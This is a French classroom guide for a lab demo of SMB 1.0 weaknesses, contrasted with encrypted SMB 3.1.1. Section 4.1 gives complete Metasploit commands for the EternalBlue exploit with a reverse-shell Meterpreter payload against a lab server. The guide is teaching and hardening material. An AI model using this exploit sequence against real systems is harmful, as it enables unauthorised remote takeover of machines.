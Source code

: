 # Démonstration de failles de sécurité sur SMB 1.0 avec exploitation via Metasploit et comparaison avec SMB 3.1.1**

---

# **1. Objectifs pédagogiques**

Dans cette démonstration, vos étudiants vont :

- Comprendre les failles de sécurité associées à SMB 1.0.
- Simuler une attaque en exploitant la vulnérabilité EternalBlue (CVE-2017-0144) avec Metasploit.
- Comparer la sécurité offerte par SMB 3.1.1, qui inclut des mécanismes de chiffrement modernes.
- Utiliser des outils d'analyse réseau comme Wireshark ou Microsoft Message Analyzer pour capturer et analyser le trafic réseau SMB (SMB 1.0 non chiffré vs SMB 3.1.1 chiffré).

---

# **2. Configuration requise**

#### **Machines utilisées**

| Machine        | Rôle                       | Système d'exploitation | IP Statique     | Nom d’hôte      |
| -------------- | -------------------------- | ---------------------- | --------------- | --------------- |
| Windows Server | Contrôleur de domaine, SMB  | Windows Server 2016/2019| 192.168.1.10    | SERVER01        |
| Windows 10     | Client du domaine           | Windows 10 Pro         | 192.168.1.20    | CLIENT01        |
| Kali Linux     | Test d'attaque Metasploit   | Kali Linux             | 192.168.1.30    | KALI            |

---

# **3. Schéma réseau ASCII**

```
                                +-------------------------+
                                |      Routeur            |
                                |    Passerelle: 192.168.1.1|
                                +-------------------------+
                                          |
                                          |
                              +-----------+------------+
                              |          Réseau Local            |
                              |         (192.168.1.0/24)         |
                              +-----------+------------+
                                          |
              +-------------------+       +-------------------+      +-------------------+
              |  Windows Server    |       |  Windows 10       |      |  Kali Linux       |
              |   (AD & SMB)       |       |   (Client)        |      |  (Metasploit)     |
              |   IP: 192.168.1.10 |       |   IP: 192.168.1.20|      |   IP: 192.168.1.30|
              +-------------------+       +-------------------+      +-------------------+
              |  Domaine: cafe.local       |  Domaine: cafe.local     |   Test d'attaque  |
              |  SMB 1.0 & 3.x             |  DNS: 192.168.1.10       |  (Metasploit)     |
              +-------------------+       +-------------------+      +-------------------+
```

---

# **4. Étapes détaillées**

#### **4.1. Activation et simulation d'une attaque SMB 1.0**

1. **Activer SMB 1.0 sur le serveur Windows :**

   ```powershell
   # Activer SMB 1.0 pour la démonstration
   Set-SmbServerConfiguration –EnableSMB1Protocol $true
   ```

2. **Simulation d'une attaque avec Metasploit (exploitation EternalBlue) :**

   Sur **Kali Linux**, lancez Metasploit pour exploiter la vulnérabilité EternalBlue :

   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.10  # IP du serveur Windows
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.30  # IP de Kali Linux
   exploit
   ```

3. **Montrer les résultats aux étudiants :**
   Après exploitation, Metasploit vous donne accès à une session **Meterpreter** sur la machine cible. Montrez comment un attaquant peut prendre le contrôle de la machine cible en raison de l'utilisation de SMB 1.0.

---

#### **4.2. Capture et analyse du trafic SMB 1.0 avec Wireshark**

1. **Lancer Wireshark** sur Kali Linux ou une autre machine pour capturer le trafic réseau entre la machine Windows 10 et le serveur Windows avec SMB 1.0 activé.

2. **Capturer le trafic SMB 1.0** pendant un transfert de fichier entre les deux machines via un partage SMB.

3. **Analyser le trafic capturé** : Montrez que le contenu des fichiers est visible en clair, car SMB 1.0 ne chiffre pas les données.

   **Étapes détaillées pour la capture et analyse :**
   
   - **Lancer Wireshark** : Tapez `wireshark` dans le terminal de Kali pour lancer l'application.
   - **Sélectionner l'interface réseau** : Choisissez l'interface appropriée (généralement `eth0` pour Ethernet) et commencez la capture en cliquant sur le bouton vert **"Start"**.
   - **Effectuer un transfert de fichier** depuis le client Windows 10 vers le serveur Windows avec un dossier partagé SMB 1.0 (`\\192.168.1.10\SharedFolder`).
   - **Filtrer les paquets SMB** : Dans Wireshark, tapez `smb` dans la barre de filtre et appuyez sur Entrée.
   - **Analyser les paquets SMB Write** : Recherchez les paquets contenant les données du fichier transféré. Vous verrez que les données sont envoyées en clair.

---

#### **4.3. Passage à SMB 3.1.1 et démonstration de la sécurité**

1. **Désactiver SMB 1.0 et activer SMB 3.1.1** sur le serveur Windows :

   ```powershell
   # Désactiver SMB 1.0 et activer SMB 3.x avec chiffrement
   Set-SmbServerConfiguration –EnableSMB1Protocol $false
   Set-SmbServerConfiguration –EnableSMB2Protocol $true
   Set-SmbServerConfiguration –EncryptData $true
   ```

2. **Répéter le transfert de fichier** avec SMB 3.1.1 activé et capturer à nouveau le trafic avec Wireshark ou **Microsoft Message Analyzer**.

3. **Analyser le trafic capturé** : Montrez que les données sont maintenant chiffrées et que les informations sensibles ne peuvent plus être interceptées.

---

# **5. Export et analyse des journaux d’audit**

1. **Activer l'audit des accès SMB :**

   ```powershell
   Set-SmbServerConfiguration –AuditSmb1Access $true
   ```

2. **Afficher les événements d’audit générés :**

   ```powershell
   Get-WinEvent -LogName Microsoft-Windows-SMBServer/Audit
   ```

3. **Exporter les événements d’audit vers un fichier CSV :**

   ```powershell
   $events = Get-WinEvent -LogName Microsoft-Windows-SMBServer/Audit
   $events | Export-Csv -Path "C:\AuditSMB.csv" -NoTypeInformation
   ```

---

# **6. Comparaison SMB 1.0 vs SMB 3.1.1**

| Fonctionnalité          | SMB 1.0                     | SMB 3.1.1                   |
| ----------------------- | --------------------------- | --------------------------- |
| Chiffrement              | Aucun                       | AES-128-GCM / AES-128-CCM    |
| Vulnérabilité EternalBlue| Oui                         | Non                         |
| Intégrité des données    | Non                         | Oui (Pré-authentification)   |
| Performance              | Faible                      | Améliorée                    |
| Risques de sécurité      | Élevés                      | Réduits                      |

---

# **7. Conclusion**

Cette démonstration permet de :
- Montrer les risques d'utiliser SMB 1.0, notamment via l'exploitation de la vulnérabilité EternalBlue.
- Mettre en évidence l'importance de désactiver SMB 1.0 dans les environnements modernes.
- Enseigner la migration vers SMB 3.1.1 pour bénéficier du chiffrement et d'autres améliorations en matière de sécurité.
- Utiliser des outils comme **Wireshark** et **Metasploit** pour analyser le comportement des protocoles réseau.

